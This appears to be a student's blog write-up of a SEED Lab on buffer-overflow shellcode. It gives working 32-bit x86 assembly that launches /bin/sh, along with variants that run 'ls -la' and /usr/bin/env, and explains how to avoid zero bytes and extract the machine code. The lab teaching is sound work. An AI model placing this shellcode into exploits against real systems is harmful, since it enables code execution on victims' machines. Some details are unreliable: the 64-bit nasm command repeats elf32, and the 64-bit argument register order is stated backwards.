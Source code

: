 ```yaml
---
layout: post
title: Buffer Overflow - Part 1
excerpt:
categories: [assembly, shellcode]
---
```


In this post, I aim to document my findings and observations while performing a SEED Lab.


A shellcode is a piece of code that is used to spawn a command shell or execute specific commands. It is usually written in assembly (a low-level programming language that is specific to a particular computer architecture or processor). Because computers can either be 32-bit or 64-bit, shellcodes will have to be written for specific architectures, however, 64bit computers can always run 32-bit shellcodes.


Given an assembly code `test.s`, such code can be compiled using nasm 

- on linux:

  - `nasm -f elf32 test.s -o test.o` (for 32-bit)
 
  - `ld -m elf_i386 test.o -o test` (for 32-bit)
 
  - `nasm -f elf32 test.s -o test.o` (for 64-bit)
 
  - `ld -m elf_x86_64 test.o -o test` (for 64-bit)

- on windows:

  - `nasm -f win32 test.s -o test.o` (for 32-bit)
 
  - `nasm -f win64 test.s -o test.o` (for 64-bit)
 
  - `gcc test.obj -o test.exe`


In a buffer overflow attack, we need to make use of the machine code, not the assembly code or executable as we need to include the shellcode in our attacking
code. Thus we need to extract the machine code from the executable file or the object file. One way is to use the objdump command.

- `objdump -Mintel --disassemble test.o`

To make it easy to copy the machine code, we can perform further processing on the output.

- `objdump -Mintel --disassemble test.o | cut -f2 | sed 's/ //g' | tr -d '\n'`


### Using the shellcode in attacking code.

In many cases of buffer-overflow, the vulnerability is caused by the strcpy() function. For the strcpy() function, zero is considered as the end of the string. Therefore, if there is a zero in the middle of the shellcode, the strcpy() fuction will end abruptly, causing the attack to fail. It is therefore necessary that there is no zero in the machine code.

There are many techniques that can get rid of zeros from the shellcode:

- xoring the 32-bit registers and pushing it to the stack

  ```
  xor eax eax
  push eax
  ```

- assigning an 8-bit number to one of the 8-bits registers

  ```
  xor eax eax
  mov al, 0x99
  push eax
  ```

- using bit-shift to replace filler characters i.e. to turn "xyz#" into "xyz\0"

  ```
  ;for computers that are little endian i.e. like reading from right to left
  mov eax "xyz#"
  shl eax, 8
  shr eax, 8
  push eax

  ;for computers that are big endian i.e. like reading from left to right
  mov eax "xyz#"
  shr eax, 8
  shl eax, 8
  push eax
  ```

####  Providing Arguments for System Calls

Linux provides the programmer with system calls that can be easily executed from assembly. These system calls are triggered by using interrupts. `int 0x80` is used to tell the linux kernel to use the EAX, EBX, ECX, and EDX registers to call a function.

When making a system call the 32-bit registers are interpreted as follows:
EAX: this is used to store the function to be called
EBX: this is used to store the first argument to the function
ECX: this is used to store the second argument to the function
EDX: this is used to store the third argument to the function

So in the case of execve we have the function definition as:

```
execve(const char *pathname, char *const _Nullable argv[],
                  char *const _Nullable envp[])
```

This means EAX would store the execve function itself (execve has a system call number of 11), EBX would store the pathname (which in this case is /bin/sh), ECX would store argv[] (which includes the pathname, the arguments, and a null terminator), and EDX would store envp[] (which is the environment variables).

<details>
<summary>Seed lab code</summary>

```assembly
section .text
  global _start
    _start:
      ; Store the argument string on stack
      xor eax, eax
      push eax ; Use 0 to terminate the string
      push "//sh" ;
      push "/bin"
      mov ebx, esp ; Get the string address
      ; Construct the argument array argv[]
      push eax ; argv[1] = 0
      push ebx ; argv[0] points to the cmd string
      mov ecx, esp ; Get the address of argv[]
      ; For environment variable
      xor edx, edx ; No env variable
      ; Invoke execve()
      xor eax, eax ; eax = 0x00000000
      mov al, 0x0b ; eax = 0x0000000b
      int 0x80
```

</details>

<details>
<summary>My solution to <code>/bin/sh -c "ls -la"</code></summary>

```assembly
section .text
  global _start
    _start:
      ; Store the "ls -la" string on stack
      mov edx, "la  "
      shl edx, 16
      shr edx, 16
      push edx
      push "ls -"
      mov edx, esp     ; Get the string address for "ls -la"
      
      ; Store the "-c" string on stack
      mov ecx, "-c  "
      shl ecx, 16
      shr ecx, 16
      push ecx
      mov ecx, esp     ; Get the string address for "-c"
      
      ; Store the "/bin/sh" string on stack
      mov ebx, "/sh "
      shl ebx, 8
      shr ebx, 8
      push ebx
      push "/bin"
      mov  ebx, esp     ; Get the string address for "/bin/sh"

      ; Construct the argument array argv[]
      xor eax, eax      ; ensure eax = 0x00000000
      push eax          ; argv[3] = 0
      push edx          ; argv[2] points to "ls -la"
      push ecx          ; argv[1] points to "-c"
      push ebx          ; argv[0] points to "/bin/sh"
      mov  ecx, esp     ; Get the address of argv[]
   
      ; For environment variable 
      xor  edx, edx     ; No env variables 

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```

</details>

<details>
<summary>My solution to <code>/usr/bin/env</code> (supplying environment variables)</summary>

```assembly
section .text
  global _start
    _start:    
      ; Store the environment variable string on the stack
      xor eax, eax
      push eax
      push "1234"
      push "aaa="
      mov eax, esp      ; Get the string address for "aaa=1234"
      
      xor ebx, ebx
      push ebx
      push "5678"
      push "bbb="
      mov ebx, esp      ; Get the string address for "bbb=5678"
      
      mov ecx, "4   "
      shl ecx, 24
      shr ecx, 24
      push ecx
      push "=123"
      push "cccc"
      mov ecx, esp      ; Get the string address for "cccc=1234"
   
      ; For environment variable
      xor  edx, edx     ; edx = 0
      push edx          ; argv[3] = 0
      push eax          ; argv[2] points to "aaa=1234"
      push ebx          ; argv[1] points to "bbb=5678"
      push ecx          ; argv[0] points to "cccc=1234"
      mov edx, esp      ; Get the address of env[]
      
      ; Store the argument string on stack
      xor  eax, eax 
      push eax          ; Use 0 to terminate the string
      push "/env"
      push "/bin"
      push "/usr"
      mov  ebx, esp     ; Get the string address

      ; Construct the argument array argv[]
      push eax          ; argv[1] = 0
      push ebx          ; argv[0] points "/usr/bin/env"
      mov  ecx, esp     ; Get the address of argv[]

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```

</details>

#### Using Code Segment

Rather than dynamically constructing all the necessary data structures on the stack, so their addresses can be obtained from the stack pointer `esp`, data can be stored in the code region, and its address is obtained via the function call mechanism.

<details>
<summary>My solution to <code>/bin/sh -c "ls -la"</code> using code segment</summary>

```assembly
section .text
  global _start
    _start:
        BITS 32
	    jmp short two
    one:
 	    pop esi
     	    xor eax, eax
 	
 	    mov [esi+7],  al   ; /bin/sh%0
 	    mov [esi+10], al   ; -c%0
 	    mov [esi+17], al   ; ls -la%0
 	
 	    mov [esi+18], esi  ; put address of "/usr/bin/env" in AAAA
 	
 	    lea ebx, [esi+8]   ; get address of "-c"
 	    mov [esi+22], ebx  ; put address of "-c" in BBBB
 	
 	    lea ebx, [esi+11]  ; get address of "ls -la"
 	    mov [esi+26], ebx  ; put address of "ls -la" in CCCC
 	    
 	    mov [esi+30], eax  ; put NULL in DDDD
 	
 	    mov al,  0x0b      ; pass the execve syscall number as argument
 	    mov ebx, esi
 	    lea ecx, [esi+18]  ; /bin/sh -c "ls -la"
 	    lea edx, [esi+30]  ; NULL

 	    int 0x80           ; execve
    two:
 	    call one
 	    db '/bin/sh*-c*ls -la*AAAABBBBCCCCDDDD'
 	       ;01234567890123456789012345678901234
 	       ;          1         2         3
```

</details>

<details>
<summary>My solution to <code>/usr/bin/env</code> (supplying environment variables) using code segment</summary>

```assembly
section .text
  global _start
    _start:
        BITS 32
	    jmp short two
    one:
 	    pop esi
     	xor eax, eax
 	
 	    mov [esi+12], al   ; /usr/bin/env%0
 	    mov [esi+17], al   ; a=11%0
 	    mov [esi+23], al   ; bb=22%0
 	    mov [esi+32], al   ; ccc=4567%0
 	
 	    mov [esi+33], esi  ; address of /usr/bin/env in AAAA
 	    mov [esi+37], eax  ; put NULL in BBBB (to indicate end of array)
 	
 	    lea ebx, [esi+13]  ; get address of a=11
 	    mov [esi+41], ebx  ; address of a=11 in CCCC
 	
 	    lea ebx, [esi+18]  ; get address of bb=22
 	    mov [esi+45], ebx  ; address of bb=22 in DDDD
 	    
 	    lea ebx, [esi+24]  ; get address of ccc=4567
 	    mov [esi+49], ebx  ; address of ccc=4567 in EEEE
 	
 	    mov al,  0x0b      ; pass the execve syscall number as argument
 	    mov ebx, esi
 	    lea ecx, [esi+33]  ; /usr/bin/env
 	    lea edx, [esi+41]  ; a=11,bb=22,ccc=4567

 	    int 0x80           ; execve
    two:
 	    call one
 	    db '/usr/bin/env*a=11*bb=22*ccc=4567*AAAABBBBCCCCDDDDEEEE'
 	    ;   01234567890123456789012345678901234567890123456789012
 	    ;             1         2         3         4         5 
```

</details>

___

Writing 64-bit shellcode is not too different to writing 32-bit shellcode. The differences are mainly in the registers. For the x64 architecture, invoking system call
is done through the syscall instruction, and the first three arguments for the system call are stored in the rdx, rsi, rdi registers, respectively.
<details>
<summary>64-bit equivalent registers</summary>

- eax = rax

- ebx = rdi

- ecx = rsi

- edx = rdx

</details>





